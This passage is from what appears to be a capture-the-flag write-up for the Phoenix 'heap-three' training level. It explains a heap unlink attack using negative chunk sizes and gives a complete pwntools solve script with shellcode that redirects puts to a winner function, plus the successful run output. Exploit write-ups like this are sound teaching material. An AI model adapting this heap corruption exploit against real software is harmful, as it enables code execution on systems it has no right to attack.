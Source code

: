 Here we will adjust the size to jump to chunk **a**, before forward consolidation the code first checks  **nextinuse** which will check the **prev in use** flag of chunk **b** to check if chunk **a** if free or not, here it's not so the code will just avoid the forward consolidation. the difference between chunk **a** and **c** is 0xf7e69050 - 0xf7e69000 = 80 so **chunk_size** of **c** will be **0xffffffb0 = -80**.

# Solution:

```python
# solve.py

from pwn import *

puts_addr = 0x804c13c
shellcode_addr = 0xf7e6900c

'''
  push 0x80487d5      # winner_address
  ret
'''
shellcode = '\x68\xd5\x87\x04\x08\xc3'


buff = ""

# first chunk
buff += 'AAAA'			# This will be overwritten with FD when free(a)
buff += shellcode
buff += ' '

# second chunk
buff += 'B'*32			# Fill the second chunk
buff += p32(0xfffffffc)		# prevsize of third chunk = -4 to jump inside itself when consolidating backward
buff += p32(0xffffffb0)		# size of third chunk = -80 to jump to first chunk when consolidating forward
buff += ' '

# third chunk
buff += 'AAAA'			# junk
buff += p32(puts_addr-12)	# will be p->fd
buff += p32(shellcode_addr)	# will be p->bk

print(buff)
```

```
$ /opt/phoenix/i486/heap-three $(python solve.py)
Level was successfully completed at @ 1580754261 seconds past the Epoch
```

This might not be the best explanation but this level really required a lot of reading from different resources to grasp the concepts.
